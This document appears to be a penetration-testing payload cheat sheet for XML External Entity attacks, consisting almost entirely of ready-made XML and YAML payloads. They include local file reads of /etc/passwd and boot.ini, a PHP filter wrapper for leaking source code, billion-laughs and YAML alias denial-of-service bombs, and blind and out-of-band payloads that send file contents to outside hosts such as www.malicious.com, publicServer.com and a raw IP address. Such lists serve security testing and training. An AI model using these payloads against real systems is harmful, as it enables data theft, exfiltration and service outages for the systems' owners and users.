 # XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input Exploit

## Basic Test

```Javascript
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

## Basic XXE

### Classic XXE

```Javascript
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>

<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

```Javascript
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

## PHP Wrapper inside XXE

```Javascript
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.bae64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## Deny of service

### Deny Of Service - Billion Laugh Attack

```Javascript
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## Yaml attack

```Javascript
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

## Blind XXE

```Javascript
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

## XXE OOB Attack (Yunusov, 2013)

```Javascript
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

## XXE OOB with DTD and PHP filter

```Javascript
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://92.222.81.2/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://92.222.81.2/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://92.222.81.2/dtd.xml?%data;'>">
```

## XXE Inside SOAP

```Javascript
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
